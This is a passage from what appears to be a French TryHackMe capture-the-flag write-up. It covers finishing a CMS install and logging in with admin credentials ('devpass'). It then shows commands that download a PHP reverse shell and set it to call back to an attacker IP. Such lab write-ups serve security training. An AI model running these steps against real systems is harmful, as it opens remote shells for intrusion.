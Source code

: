 6. Site Settings :    
Web Site Name : toto     
On fait Next.     

7. Files : 
On fait Next.   

8. Database work   
On fait Next.      

9. Finish


![page3](./Task1-03.png)    

On se connect avec les identifiants admins.   
Nom : admin     
Mot de passe : devpass    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget https://raw.githubusercontent.com/timruff/php-reverse-shell/master/php-reverse-shell.php -nv
2021-09-06 21:46:53 URL:https://raw.githubusercontent.com/timruff/php-reverse-shell/master/php-reverse-shell.php [5491/5491] -> "php-reverse-shell.php" [1]
tim@kali:~/Bureau/tryhackme/write-up$ sed -i 's/127.0.0.1/10.9.228.66/g' php-reverse-shell.php 
```

On télécharge et configure un reverse shell.   
